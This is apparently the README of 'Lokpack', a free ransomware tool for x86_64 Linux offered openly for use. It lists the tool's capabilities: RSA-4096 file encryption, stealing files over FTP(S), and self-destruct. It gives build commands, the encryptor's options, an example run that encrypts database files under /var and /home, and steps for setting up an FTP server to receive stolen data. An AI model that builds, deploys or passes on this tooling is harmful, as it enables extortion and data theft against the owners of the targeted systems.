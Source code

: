 # Lokpack | Ransomware tooling for x84_64 Linux
Lokpack is a free (as in freedom) and open source ransomware 
tool targeting x86_64 Linux systems, written in C.

![showcase](https://github.com/ngn13/lokpack/assets/78868991/d1d8e490-b7d3-4f21-aeca-368eb0a0a0d8)

## Features
- Build static encryption and decrypiton tools
- Steal files using a FTP(S) server
- Specify custom target paths
- Uncrackable RSA-4096 asymmetric encryption
- Multi-threaded (a.k.a. fast)

## Build
Required libraries/tools:
- A (x86_64) Linux system
- gcc and other build tools 
- curl (and headers)
- openssl (and headers)

To generate static builds, you will need static libraries of curl and openssl, 
**if your distro does not package these**, you can build them yourself or use the automated
build scripts:
```bash
./scripts/openssl.sh
./scripts/curl.sh
```
**Note that automated script for curl does not support SSL connections**.

After building the static libraries, use the build script to create build with a random key:
```bash
./scripts/build.sh -static
```
This should create the `encryptor` and the `decryptor` binares at `dist/`.

## Options
After transfering `encryptor` to the target system, you can specify custom options:
```bash
$ ./encryptor --help
[*] Listing available options:
    --threads  => Thread count for the thread pool
    --paths    => Paths to look for files
    --exts     => Valid extensions for files
    --ftp-url  => Address for the FTP(S) server
    --ftp-user => FTP(S) username
    --ftp-pwd  => FTP(S) password
    --no-ftp   => Disable stealing files with FTP(S)
    --destruct => Self destruct the program
    --debug    => Enable debug output
```

For example to encrypt `.sql` and `.db` files located at `/var` and `/home` without FTP using 100 threads:
```bash
./encryptor --threads=100 --paths=/var,/home --exts=sql,db --no-ftp
```
If you want to encrypt all files with all extensions, set `--exts` to `ALL`.

Decryptor does not have any options, but can specify the target directory, by default it searches the entire file system (`/`):
```bash
./decryptor /var
```

### Setting up FTP(S)
For an actual FTP(S) setup you should install a FTP daemon such as `vsftpd` or `bftpd`. But for testing you can 
use `pyftpdlib`:
```bash
# username and password are 'anonymous' 
# which is default for the encryptor
python3 -m pyftpdlib -w
# -w for write access
```

## Resources
- [C-Thread-Pool](https://github.com/Pithikos/C-Thread-Pool)
- [CURL ftpupload](https://curl.se/libcurl/c/ftpupload.html)
- [CURL options](https://curl.se/libcurl/c/easy_setopt_options.html)
- [OpenSSL RSA Demo](https://github.com/openssl/openssl/blob/master/demos/encrypt/rsa_encrypt.c)
